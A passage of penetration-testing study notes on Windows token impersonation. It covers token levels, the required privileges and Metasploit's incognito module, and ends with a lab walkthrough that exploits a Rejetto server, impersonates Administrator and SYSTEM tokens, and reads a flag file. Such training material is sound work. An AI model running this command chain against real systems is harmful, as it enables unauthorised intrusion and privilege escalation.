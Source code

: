 * Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.
* Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

#### Windows privileges

* The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as impersonation or delegation tokens available.
* The following are the privileges that are required for a successful impersonation attack :
  * **SeAssignPrimaryToken** : this allows a user to impersonate tokens.
  * **SeCreateToken** : this allows a user to create an arbitrary token with administrative privileges.
  * **SeImpersonatePrivilege** : this allows a user to create a process under the security context of another user typically with administrative privileges.

#### Incognito module

* Incognito is a built-in meterpreter module that was originally a standalone application that allows to impersonate user tokens after successful exploitation.
* We can use the incognito module to display a list of available tokens that we can impersonate.

#### Lab

```bash
john@attack> nmap 10.3.16.83
john@attack> msfconsole

msf6> search rejetto
msf6> use 0
msf6> set rhosts 10.3.16.83
msf6> run

meterpreter> getuid            # NT AUTHORITY\LOCAL SERVICE
meterpreter> getprivs
meterpreter> pgrep explorer
meterpreter> migrate 3788
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token "ATTACKDEFENSE\Administrator"

meterpreter> getuid            # ATTACKDEFENSE\Administrator
meterpreter> getprivs
meterpreter> pgrep explorer
meterpreter> migrate 3788
meterpreter> list_tokens -u
meterpreter> impersonate_token "NT AUTHORITY\SYSTEM"

meterpreter> getuid            # NT AUTHORITY\SYSTEM
meterpreter> shell

C:\Windows\system32> more c:\users\administrator\desktop\flag.txt
```
